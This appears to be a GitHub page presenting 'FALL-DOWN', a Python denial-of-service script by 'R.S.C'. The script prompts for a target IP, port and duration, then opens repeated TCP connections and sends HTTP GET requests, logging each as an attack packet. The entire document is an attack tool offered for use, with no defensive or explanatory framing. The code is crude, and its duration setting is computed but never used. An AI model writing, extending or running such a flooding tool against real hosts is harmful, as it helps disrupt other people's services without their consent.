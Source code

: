 # FALL-DOWN
ddos tool by R.S.C


import socket
import time

def print_banner():
    print("""
    ██████  ██████  ██████  ███████     ███████ ██████  ██████   ██████  ██████  
    ██      ██  ████ ██   ██ ██          ██      ██   ██ ██   ██ ██  ████ ██   ██ 
    ██      ██ ██ ██ ██   ██ █████       █████   ██████  ██████  ██ ██ ██ ██████  
    ██      ████  ██ ██   ██ ██          ██      ██   ██ ██   ██ ████  ██ ██   ██ 
     ██████  ██████  ██████  ███████     ███████ ██   ██ ██   ██  ██████  ██   ██ 
                                                                                  
                                                                                      
   A Simple Denial of Service (DoS) Tool by R.S.C                                                                                   
    """)

def dos_attack(ip, port, duration, packets_to_send):
    timeout = time.time() + duration
    packets_sent = 0

    try:
        for _ in range(packets_to_send):
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, port))
            s.sendall("GET / HTTP/1.1\r\n".encode())
            s.sendall(("Host: " + ip + "\r\n\r\n").encode())
            packets_sent += 1
            print(f"{packets_sent} packets sent to {ip}")
            s.close()
            time.sleep(0.1)  # Añadimos un pequeño retraso entre envíos para evitar saturar la red

    except socket.error as e:
        print(f"Connection error: {e}")

print_banner()



target_ip = input("Enter the target IP address: ")
target_port = int(input("Enter the target port: "))
duration = int(input("Enter the duration of the attack in seconds: "))
packets_to_send = int(input("Enter the number of packets to send at once: "))

dos_attack(target_ip, target_port, duration, packets_to_send)
